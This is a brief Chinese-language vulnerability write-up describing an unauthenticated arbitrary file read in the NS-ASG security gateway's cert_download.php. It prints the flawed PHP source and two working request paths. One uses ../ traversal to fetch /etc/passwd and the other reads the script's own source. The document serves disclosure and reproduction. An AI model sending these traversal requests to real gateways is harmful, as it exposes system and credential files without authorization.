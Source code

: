 # 网康 NS-ASG安全网关 cert_download.php 任意文件读取漏洞

## 漏洞描述

网康 NS-ASG安全网关 cert_download.php 文件存在任意文件读取漏洞

## 漏洞影响

```
网康 NS-ASG安全网关
```

## 网络测绘

```
网康 NS-ASG安全网关
```

## 漏洞复现

出现漏洞的文件为 **/admin/cert_download.php**

```php
![2](C:\Users\47236\Desktop\2.png)<?php
$filename = substr($file,strpos('certs/',$certfile)+6);
//文件的类型
header('Content-type: application/pdf');
//下载显示的名字
header('Content-Disposition: attachment; filename="'.$filename.'"');
readfile("$certfile");
exit();
?>
```

此文件没有对身份进行校验即可下载任意文件

```plain
/admin/cert_download.php?file=test.txt&certfile=../../../../../../../../etc/passwd
```

![](./images/202202162231024.png)

```plain
/admin/cert_download.php?file=test.txt&certfile=cert_download.php
```

![](./images/202202162234357.png)